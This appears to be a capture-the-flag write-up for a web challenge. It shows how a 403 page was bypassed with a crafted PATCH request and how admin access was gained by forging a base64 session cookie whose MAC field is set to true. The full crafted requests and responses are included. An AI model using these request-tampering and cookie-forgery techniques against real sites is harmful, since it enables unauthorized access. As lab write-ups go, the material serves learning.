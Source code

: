 # Grammar
## Bypassing 403

This challenge greets us with a lovely '403 Forbidden' message and there's not much more to look at. So let's fuzz things!
### Starting trivially
- Dirbuster lists
- Directory traversal lists
- User agent string
- Maybe a blocked ip?

But no luck with that. Attacking Apache vulnerabilities seems beyond the scope of this challenge, so continue looking.

### What about grammar tho?

And that is it, HTTP __verbs__ is the way to go. The idea is to change file permissions using PUT/PATCH request.

Crafting the request
```
PATCH /index.php HTTP/1.1
Host: 88.198.233.174:33295
Content-Type: application/json
Content-Length: 45

{executable:true,readable:true,writable:true}

```

Response
```
HTTP/1.1 200 OK
Date: Fri, 20 Oct 2017 18:14:34 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: ses=eyJVc2VyIjoid2hvY2FyZXMiLCJBZG1pbiI6IkZhbHNlIiwiTUFDIjoiZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWQifQ%3D%3D
Vary: Accept-Encoding
Content-Length: 382
Content-Type: text/html; charset=UTF-8
```

Killed it, right?

This is what appears next

```html
<html>
<body>
<form action="index.php" method="post">
Change Username: <br>
<input type="text" name="fuckhtml" placeholder="notimportant">
<!-- HTB hint:really not important...totaly solvable without using it! Just there to fill things and to save you from some trouble you might get into :) -->
<input type="submit" value="Change">
</form>
</body>
</html>
not an admin (yet)
```
## Becoming an admin

Getting back to the cookie received from the server
```
ses=eyJVc2VyIjoid2hvY2FyZXMiLCJBZG1pbiI6IkZhbHNlIiwiTUFDIjoiZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWQifQ%3D%3D
```
Decoding from base64
```
{"User":"whocares","Admin":"False","MAC":"ff6d0a568d61e5a03bcdb04509d5885d"}
```
The obvious thing would be to change 'Admin' to 'True', but it is not enough. This does not match against MAC checksum, to which the server responds:
```html
...
</body>
</html>
what are you trying to do huh?
```
There is probably a way to do a cryptanalysis on this thing, but there should be something less time-consuming. And there is, it is type confusion.

Instead of passing a string for a MAC value, attempt to pass something else.
```
{"User":"whocares","Admin":"True","MAC":true}
```
Base64 & url encoded & all done
```
POST /index.php HTTP/1.1
Host: 88.198.233.174:33367
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://88.198.233.174:33295/index.php
Cookie: ses=eyJVc2VyIjoid2hvY2FyZXMiLCJBZG1pbiI6IlRydWUiLCJNQUMiOnRydWV9%3D%3D
```

_P.S.: they were also kind enough to give MAC generation algorithm with the flag_

![Sick Algo](https://i.imgur.com/m1OOHuE.png "Sick algo")
